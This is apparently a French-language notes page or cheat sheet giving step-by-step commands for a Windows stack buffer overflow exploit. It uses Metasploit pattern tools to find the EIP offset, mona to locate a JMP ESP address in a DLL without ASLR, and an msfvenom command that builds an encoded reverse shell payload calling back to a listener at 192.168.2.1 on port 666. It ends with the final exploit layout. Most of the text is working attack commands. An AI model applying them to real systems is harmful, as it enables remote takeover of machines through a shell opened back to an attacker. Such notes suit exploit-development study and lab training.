 ## Reverse

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP>
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
 - vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

 Paramètre | Valeur                    | Description            
 --------- | ------------------------- | ---------------------- 
 -p        | windows/shell_reverse_tcp | type de payload        
 LHOST     | 192.168.2.1               | adresse ip du listener 
 LPORT     | 666                       | port du listener       
 -f        | c                         | export au format C     
 -e        | x86/shikata_ga_nai        | encodeur               
 -b        | "\x00\x0D\xFF"            | liste des Badchar       

- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```